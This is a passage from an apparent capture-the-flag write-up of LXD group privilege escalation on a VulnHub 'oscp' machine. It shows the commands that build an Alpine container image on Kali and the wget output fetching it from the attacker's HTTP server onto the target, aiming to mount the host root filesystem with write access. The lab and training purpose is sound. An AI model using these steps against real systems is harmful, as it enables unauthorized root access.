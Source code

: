 From here, I started building an Alpine Linux container so that I could eventually mount it to access the host's root file system with write privileges.
I used the following article from [hacktricks](https://book.hacktricks.xyz/linux-unix/privilege-escalation/interesting-groups-linux-pe/lxd-privilege-escalation) as a reference:

On my Kali machine:

```bash
# Install requirements
sudo apt update
sudo apt install -y golang-go debootstrap rsync gpg squashfs-tools
go get -d -v github.com/lxc/distrobuilder
cd $HOME/go/src/github.com/lxc/distrobuilder
make

#Prepare the creation of alpine
mkdir -p /home/kali/ctf/vulnhub/oscp/privesc/ContainerImages/alpine/
cd /home/kali/ctf/vulnhub/oscp/privesc/ContainerImages/alpine/
wget https://raw.githubusercontent.com/lxc/lxc-ci/master/images/alpine.yaml

#Create the container
sudo $HOME/go/bin/distrobuilder build-lxd alpine.yaml
sudo $HOME/go/bin/distrobuilder build-lxd alpine.yaml -o image.architecture=x86_64 -o image.release=edge
```

This created the `lxd.tar.xz` and `rootfs.squashfs` files in my current working directory.

I then transferred those files from my Kali machine to the oscp machine:

```
-bash-5.0$ wget http://192.168.254.145:8000/lxd.tar.xz
--2020-09-21 18:29:38--  http://192.168.254.145:8000/lxd.tar.xz
Connecting to 192.168.254.145:8000... connected.
HTTP request sent, awaiting response... 200 OK
Length: 872 [application/x-xz]
Saving to: ‘lxd.tar.xz’

lxd.tar.xz                                     100%[====================================================================================================>]     872  --.-KB/s    in 0s

2020-09-21 18:29:38 (89.1 MB/s) - ‘lxd.tar.xz’ saved [872/872]

-bash-5.0$ wget http://192.168.254.145:8000/rootfs.squashfs
--2020-09-21 18:29:46--  http://192.168.254.145:8000/rootfs.squashfs
Connecting to 192.168.254.145:8000... connected.
HTTP request sent, awaiting response... 200 OK
Length: 4415488 (4.2M) [application/octet-stream]
Saving to: ‘rootfs.squashfs’

rootfs.squashfs                                100%[====================================================================================================>]   4.21M  --.-KB/s    in 0.05s

2020-09-21 18:29:46 (90.6 MB/s) - ‘rootfs.squashfs’ saved [4415488/4415488]

```
